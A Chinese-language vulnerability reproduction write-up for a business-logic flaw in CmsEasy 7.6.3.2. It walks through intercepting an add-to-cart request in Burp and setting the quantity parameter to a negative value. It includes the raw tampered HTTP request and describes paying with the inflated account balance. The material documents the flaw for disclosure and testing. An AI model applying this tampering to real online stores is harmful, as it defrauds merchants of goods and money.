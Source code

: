 # CmsEasy 7.6.3.2_20200422 逻辑漏洞

### 一、漏洞简介

### 二、漏洞影响

CmsEasy 7.6.3.2

### 三、复现过程

1.登录任意账号

2.点击任意产品

![](images/15897266217910.png)


2.点击任意产品

![](images/15897266288524.png)


3.点开任意一个产品，前提是有余量

![](images/15897266373411.png)


4.输入任意正常数量，burp开启抓包，点击添加到购物车

![](images/15897266443393.png)


5.将抓到的包中的最后一个数字改为负数

![](images/15897266510134.png)


![](images/15897266550107.png)


然后放包


```bash
GET /index.php?case=archive&act=doorders&aid=527&datatype=&thisnum=-100 HTTP/1.1
Host: www.baidu.com
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0
Referer: http://localhost/index.php?case=archive&act=show&aid=527
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5j671r8cg9kfppbkpl7i0n1te0; loginfalse=0; login_username=admin; login_password=787cc8f99d30dc9cbeeadd77f99efb84; ce_orders_cookie=TL%2BA8RODL9PeNwoN
Connection: close
```

6.此时可以看到购物车中为负数

![](images/15897266764936.png)


7.查看个人中心中的余额，为5600

![](images/15897266843734.png)


8.点击购物车

![](images/15897266914212.png)


9.点击下图内容

![](images/15897266982500.png)


10.填写完成之后，点击在线支付

![](images/15897267061230.png)


11.选择余额支付，点击购买

![](images/15897267130666.png)


12.购买成功

![](images/15897267195006.png)


13.回到个人中心，可以看到余额的变化

![](images/15897267281648.png)
